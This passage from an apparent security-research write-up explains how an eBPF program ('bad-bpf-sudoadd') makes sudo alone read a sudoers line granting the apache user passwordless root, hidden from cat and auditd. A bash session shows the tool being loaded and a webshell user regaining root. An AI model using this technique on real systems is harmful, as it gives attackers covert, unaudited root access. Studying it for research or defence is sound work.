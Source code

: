 ![Picture highlighjting how eBPF can intercept paramaters and return codes from syscalls](/assets/syscall_flow_03.png)

The eBPF program can overwrite the  first line in the data returned from `read` to include `apache ALL=(ALL:ALL) NOPASSWD:ALL`,
giving the `apache` user the ability to become sudo. But the real file on disk is never altered, which means to programs other that `sudo` (including kernel programs such as `auditd`) the file reamins untouched and without the apache user. Only to `sudo` will the file look different:

```bash
# Initially, user apache cannot use sudo:
root@ubuntu$ sudo -l -U 'apache'
User apache is not allowed to run sudo on ubuntu.

# Now load the eBPF Programs to warp reality around sudo:
root@ubuntu$ ./bad-bpf-sudoadd --username 'apache'

# To 'cat', the file looks normal:
root@ubuntu$ cat /etc/sudoers | grep 'apache' | wc -l
0

# But to 'sudo', it's a different story:
root@ubuntu$ sudo -l -U 'apache'
User apache may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL

# Now when we are in an apache webshell
# we can run sudo to become root again
apache@ubuntu$ sudo whoami
```